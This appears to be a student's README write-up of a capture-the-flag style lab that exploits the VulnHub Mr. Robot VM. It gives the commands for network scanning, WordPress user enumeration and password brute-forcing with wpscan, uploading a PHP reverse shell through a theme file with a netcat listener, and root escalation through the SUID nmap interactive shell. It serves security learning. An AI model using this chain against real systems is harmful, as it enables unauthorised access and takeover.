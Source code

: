 # 🧪 Hands-On Exploitation – Mr. Robot VM (Week 3 & 4)

This hands-on task focused on exploiting the vulnerable **Mr. Robot** VM from VulnHub using real-world techniques and achieving root access through privilege escalation.

---

## 🖥️ Target VM

* **Name:** Mr. Robot
* **Platform:** [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/)
* **Goal:** Gain root access

---

## ⚙️ Environment Setup

* **Kali Linux** (Attacker machine)
* **Mr. Robot VM** (Target machine)
* **VirtualBox Network Mode:** NAT Network 

---

## 🔍 Step 1: Network Setup

* Identified Kali IP using:

  ```bash
  ifconfig
  ```
* Discovered target VM using:

  ```bash
  netdiscover -r 10.0.2.0/24
  ```

---

## 🕵️ Step 2: Reconnaissance

* Scanned the Mr. Robot VM for open ports:

  ```bash
  nmap -sV -A -T4 10.0.2.7
  ```

* Discovered:

  ```
  PORT    STATE  SERVICE    VERSION
  80/tcp  open   http       Apache httpd
  443/tcp open   https      Apache httpd
  ```

---

## 🌐 Step 3: Website Enumeration

* Visited: `http://10.0.2.7`

* Ran `dirb` to find hidden directories:

  ```bash
  dirb http://10.0.2.7
  ```

* Discovered `/robots.txt` → Found:

  * `/fsocity.dic` → Wordlist
  * `/key-1-of-3.txt` → First flag

---

## 💣 Step 4: WordPress Exploitation

* Enumerated users with:

  ```bash
  wpscan --url http://10.0.2.7 --enumerate u
  ```

* Brute-forced login using:

  ```bash
  wpscan --url http://10.0.2.7 --usernames elliot --passwords fsocity.dic
  ```

* Credentials Found:

  * **Username:** elliot
  * **Password:** ER28-0652

* Logged into WordPress and uploaded a **PHP reverse shell** via 404.php:

  ```bash
  cp /usr/share/webshells/php/php-reverse-shell.php shell.php
  ```

* Set up listener:

  ```bash
  nc -lvnp 4444
  ```

* Triggered shell via browser:

  ```
  http://10.0.2.7/wp-content/themes/twentyfifteen/shell.php
  ```

---

## 🚀 Step 5: Privilege Escalation

* Found SUID binary:

  ```bash
  find / -perm -4000 2>/dev/null
  ```

* Exploited vulnerable `nmap` binary:

  ```bash
  nmap --interactive
  !sh
  ```

* ✅ Got **root shell** successfully.

![Mr.Robot Exploit Screenshot](Images/mr.robot.png)

---

## 🧠 Learnings

* Practiced full exploitation chain: **Recon → Exploit → Shell → Root**
* Understood the role of **wordlists, SUID bits, and manual enumeration**
* Used tools: `nmap`, `wpscan`, `dirb`, `netdiscover`, and `reverse shells`

---

